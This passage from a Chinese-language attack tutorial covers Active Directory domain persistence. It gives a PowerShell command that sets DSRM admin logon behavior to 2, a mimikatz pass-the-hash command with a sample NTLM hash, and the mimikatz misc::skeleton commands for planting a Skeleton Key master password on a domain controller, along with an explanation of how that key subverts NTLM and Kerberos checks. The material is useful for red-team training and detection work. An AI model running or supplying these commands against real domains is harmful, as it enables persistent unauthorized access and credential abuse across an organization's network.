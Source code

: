 3.  修改 DSRM 的登录方式

DSRM 有三种登录方式，具体如下：

> 0：默认值，只有当域控制器重启并进入 DSRM 模式时，才可以使用 DSRM 管理员账号 1：只有当本地 AD、DS 服务停止时，才可以使用 DSRM 管理员账号登录域控制器 2：在任何情况下，都可以使用 DSRM 管理员账号登录域控制器

在 Windows Server 2000 以后的版本操作系统中，对 DSRM 使用控制台登录域控制器进行了限制。如果要使用 DSRM 账号通过网络登录域控制器，需要将该值设置为 `2`。输入如下命令，可以使用 PowerShell 进行更改。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD<br>``` |

4.  使用本地 administrator 账号哈希传递攻击域控

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>sekurlsa::pth /domain:DC /user:administrator /ntlm:0f0de1776a3bf0f2a29b6f15b6fcba42<br>``` |

##### [](#2122-%E5%B0%86-dsrm-%E7%9A%84%E5%AF%86%E7%A0%81%E5%90%8C%E6%AD%A5%E4%B8%BA%E4%B8%80%E4%B8%AA%E5%9F%9F%E7%94%A8%E6%88%B7%E7%9A%84%E5%B7%B2%E7%9F%A5%E5%AF%86%E7%A0%81)2.1.2.2 将 DSRM 的密码同步为一个域用户的已知密码

其余方法同上。

### [](#22-skeleton-key-%E4%B8%87%E8%83%BD%E5%AF%86%E7%A0%81)2.2 Skeleton Key 万能密码

> Skeleton Key 被安装在 64 位的域控服务器上 支持 Windows Server2003 — Windows Server2012 R2 能够让所有域用户使用同一个万能密码进行登录 现有的所有域用户使用原密码仍能继续登录 重启后失效

使用 Skeleton Key 攻击时，NTLM、Kerberos 两种身份验证方法都会被篡改。例如，在 NTLM 身份验证期间，已注入 LSASS 进程中的主密码哈希将不会与 SAM 数据库进行比较，而将与 Skeleton Key 哈希进行比较，因此，身份验证将成功。

Kerberos 加密也将降级为不支持 Salt（RC4\_HMAC\_MD5）的算法，并且从活动目录中检索到的哈希将替换为 Skeleton Key 哈希。因此，主密码的哈希值将始终在服务器端进行验证，并且两种方法的身份验证都将成功。

#### [](#221-%E5%9C%A8%E5%9F%9F%E6%8E%A7%E4%B8%8A%E5%AE%89%E8%A3%85-skeleton-key)2.2.1 在域控上安装 Skeleton Key

mimikatz 命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>privilege::debug<br>misc::skeleton<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208143347.png-water_print](assets/1699409504-8ece0e4853812ff45511b7dbf559a1e0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20201208143347.png-water_print")

